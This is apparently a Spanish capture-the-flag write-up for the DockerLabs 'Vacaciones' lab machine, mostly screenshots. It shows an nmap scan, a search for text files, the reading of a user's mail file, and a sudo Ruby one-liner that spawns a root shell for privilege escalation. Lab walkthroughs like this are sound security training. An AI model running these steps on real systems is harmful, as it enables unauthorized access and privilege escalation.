 
![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_001.png)

Realizamos el escaneo con Nmap sobre la dirección IP 172.17.0.2 para revelar resultados.
```
nmap -p- -sS -sCV -T4 -n -Pn 172.17.0.2
```
![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_002.png)

<h3>Análisis de los Servicios Abiertos</h3>
SSH (Puerto 22):<br>
  La versión de OpenSSH detectada es relativamente antigua (7.6p1), lo que podría ser vulnerable si no está debidamente actualizada.
<br><br>

HTTP (Puerto 80):<br>
  El servidor web Apache 2.4.29 también es una versión que podría tener vulnerabilidades, ya que ha habido actualizaciones importantes desde entonces. 
<br><br>

Lista a seguir:<br>
  investigar si existen vulnerabilidades para el puerto 22<br>
  investigar posibles exploits o revisar configuraciones incorrectas en el puerto 80<br>

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_0021.png)

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_003.png)

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_004.png)

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_005.png)
```
find / -name "*.txt" 2>/dev/null
```

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_006.png)
```
cat /var/mail/camilo/correo.txt
```
![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_007.png)

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_008.png)
```
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```
![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_009.png)
